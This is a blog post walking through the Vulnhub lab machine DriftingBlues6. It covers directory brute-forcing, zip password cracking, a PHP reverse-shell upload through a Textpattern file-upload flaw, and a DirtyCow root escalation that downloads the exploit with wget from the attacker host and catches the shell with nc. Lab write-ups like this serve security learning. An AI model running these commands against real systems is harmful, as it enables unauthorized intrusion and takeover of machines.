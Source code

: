 ```yaml
---
layout: post
title:  "Vulnhub: DriftingBlues6"
date:   2021-05-05 20:00:00 +1100
category: hacking
---
```


## DriftingBlues6
Since DriftingBlues7 was so quick I rolled into [DriftingBlues6](https://www.vulnhub.com/entry/driftingblues-6,672/) and whaddya know - two successful Dirty Cow privescs in two days. What's the world coming to?

## Ports
HTTP only. 

## HTTP
**robots.txt** says:

>dont forget to add .zip extension to your dir-brute

Okey dokey. It also disallows */textpattern/textpattern*. 

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/driftingblues6]
└─# feroxbuster -u http://192.168.1.219 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -x txt,zip -C 403 --no-recursion

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.1.219
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [txt, zip]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        5l       14w      110c http://192.168.1.219/robots
200        5l       14w      110c http://192.168.1.219/robots.txt
200      212l     1206w    53656c http://192.168.1.219/db
301        9l       28w      320c http://192.168.1.219/textpattern
200        2l        7w      179c http://192.168.1.219/spammer
200        2l        7w      179c http://192.168.1.219/spammer.zip
200       76l       75w      750c http://192.168.1.219/index
200       76l       75w      750c http://192.168.1.219/
[####################] - 56s   717600/717600  0s      found:8       errors:0      
[####################] - 55s   358800/358800  6444/s  http://192.168.1.219
{% endhighlight %}

Presumably this is what we are after?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/driftingblues6]
└─# zip2john spammer.zip > spammer.john                              
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D                                                                                     
┌──(root💀kali)-[/opt/vulnhub/driftingblues6]
└─# john spammer.john -w=/usr/share/wordlists/rockyou.txt            
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)
1g 0:00:00:00 DONE (2021-05-05 06:30) 33.33g/s 682666p/s 682666c/s 682666C/s christal..michelle4
Use the "--show" option to display all of the cracked passwords reliably
Session completed                                                                                                                                       
┌──(root💀kali)-[/opt/vulnhub/driftingblues6]
└─# unzip spammer.zip                                                                   
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                                                       
┌──(root💀kali)-[/opt/vulnhub/driftingblues6]
└─# cat creds.txt       
mayer:lionheart     
{% endhighlight %}

And why do we need this?

Because */textpattern/README.txt* 

>Textpattern CMS 4.8.3

Has an unrestricted file upload [vulnerability](https://www.exploit-db.com/exploits/48943). I try the python script but it's not working:

>Traceback (most recent call last):  
>  File "/opt/vulnhub/driftingblues6/exploit.py", line 89, in <module>  
>    scriptJS = soup.find_all("script")[2].string.replace("var textpattern = ", "")[:-2]     
>AttributeError: 'NoneType' object has no attribute 'replace'

Rather than try to debug this I just use the GUI to upload the PentestMonkey PHP reverse shell then access it at:

>http://192.168.1.219/textpattern/files/shell.php

## Privesc
Yes, it's DirtyCow again. Linpeas gives me nothing but linux-exploit-suggester says DirtyCow is probable. Surely I'm not that lucky?

{% highlight shell %}
www-data@driftingblues:/tmp$ wget http://192.168.1.210:9090/dirty.c
wget http://192.168.1.210:9090/dirty.c
--2021-05-05 06:32:22--  http://192.168.1.210:9090/dirty.c
Connecting to 192.168.1.210:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/x-csrc]
Saving to: `dirty.c'

100%[======================================>] 4,815       --.-K/s   in 0s      

2021-05-05 06:32:22 (1.22 GB/s) - `dirty.c' saved [4815/4815]

www-data@driftingblues:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: none

Complete line:
firefart:fixrfs1bF52dQ:0:0:pwned:/root:/bin/bash

mmap: 7f8de31db000
{% endhighlight %}

As usual, it hangs at this point. We don't have SSH so I can't try that. Let's kill our shell and start it again, fingers crossed:

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/driftingblues6]
└─# nc -nvlp 1234                                                                                                                                                         1 ⨯
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.219] 57154
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
 06:33:30 up  1:12,  0 users,  load average: 1.81, 1.20, 1.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@driftingblues:/$ su firefart
su firefart
Password: none

firefart@driftingblues:/# cd /root
cd /root
firefart@driftingblues:~# ls -lash
ls -lash
total 20K
4.0K drwx------  3 firefart root 4.0K Mar 17 10:36 .
4.0K drwxr-xr-x 23 firefart root 4.0K Mar 17 10:09 ..
4.0K drwx------  2 firefart root 4.0K Mar 17 10:10 .aptitude
4.0K -rw-------  1 firefart root  165 Mar 17 10:36 .bash_history
4.0K -r-x------  1 firefart root 1.8K Mar 17 10:36 flag.txt
firefart@driftingblues:~# cat flag.txt
cat flag.txt

# ASCII art removed

congratulations!

firefart@driftingblues:~# id;hostname;date
id;hostname;date
uid=0(firefart) gid=0(root) groups=0(root)
driftingblues
Wed May  5 06:34:03 CDT 2021
firefart@driftingblues:~# 
{% endhighlight %}

